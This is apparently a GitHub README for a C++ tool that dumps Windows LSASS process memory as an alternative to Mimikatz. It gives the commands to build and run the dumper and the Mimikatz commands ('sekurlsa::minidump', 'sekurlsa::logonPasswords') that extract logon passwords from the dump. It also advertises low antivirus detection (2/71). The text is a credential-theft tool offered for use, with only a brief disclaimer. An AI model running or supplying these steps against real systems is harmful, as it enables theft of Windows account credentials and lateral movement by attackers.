 # LSASS Dumper
Simple LSASS Dumper created using C++ as an alternative to using Mimikatz memory dumper.

NOTE: You still need Mimikatz installed to read the dumped data. This program only dumps the data.

VirusTotal Scan Results: 2/71 when running against the executable build (For personal/experimental use only)

## Usage
The easiest way to build the executable is to just run the `Dump.cpp` file in Visual Studio, but if you prefer `g++`, that should work too.

After compiling the code into an executable, run it!

You can run the executable either way:

```powershell
> ./Dump.exe
or
> ./Dump.exe Output.txt
```
NOTE: If no argument is specified, your file will be `HOSTNAME_M_D_YYYY.txt`

Here are the commands you will need to use in Mimikatz to access the dumped data:
```powershell
> mimikatz # This will start the program
mimikatz$ sekurlsa::minidump <FileName>
mimikatz$ sekurlsa::logonPasswords
```
